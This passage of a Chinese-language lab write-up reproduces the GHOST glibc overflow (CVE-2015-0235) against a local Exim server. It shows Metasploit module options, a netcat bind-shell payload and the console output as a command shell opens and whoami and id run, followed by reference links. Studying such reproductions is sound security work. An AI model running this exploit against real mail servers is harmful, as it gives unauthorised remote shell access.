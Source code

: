 ```

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   RHOST                127.0.0.1        yes       The target address
   RPORT                25               yes       The target port (TCP)
   SENDER_HOST_ADDRESS  127.0.0.1        yes       The IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim)


Payload options (cmd/unix/bind_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  127.0.0.1        no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/smtp/exim_gethostbyname_bof) > exploit 

[*] Started bind handler
[*] 127.0.0.1:25 - Checking if target is vulnerable...
[+] 127.0.0.1:25 - Target is vulnerable.
[*] 127.0.0.1:25 - Trying information leak...
[+] 127.0.0.1:25 - Successfully leaked_arch: x64
[+] 127.0.0.1:25 - Successfully leaked_addr: 7fea43824720
[*] 127.0.0.1:25 - Trying code execution...
[+] 127.0.0.1:25 - Brute-forced min_heap_addr: 7fea438116cb
[+] 127.0.0.1:25 - Brute-force SUCCESS
[+] 127.0.0.1:25 - Please wait for reply...
[*] Command shell session 1 opened (127.0.0.1:34327 -> 127.0.0.1:4444) at 2018-01-26 17:29:07 +0800

whoami
Debian-exim
id
uid=115(Debian-exim) gid=125(Debian-exim) groups=125(Debian-exim)
```
Bingo!!!成功获得了一个反弹 shell。

对于该脚本到底是怎么做到的，本人水平有限，还有待分析。。。


## 参考资料
- [CVE-2015-0235 Detail](https://nvd.nist.gov/vuln/detail/CVE-2015-0235)
- [Qualys Security Advisory CVE-2015-0235](http://www.openwall.com/lists/oss-security/2015/01/27/9)
- [Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)](https://www.exploit-db.com/exploits/36421/)
- [Exim ESMTP 4.80 - glibc gethostbyname Denial of Service](https://www.exploit-db.com/exploits/35951/)
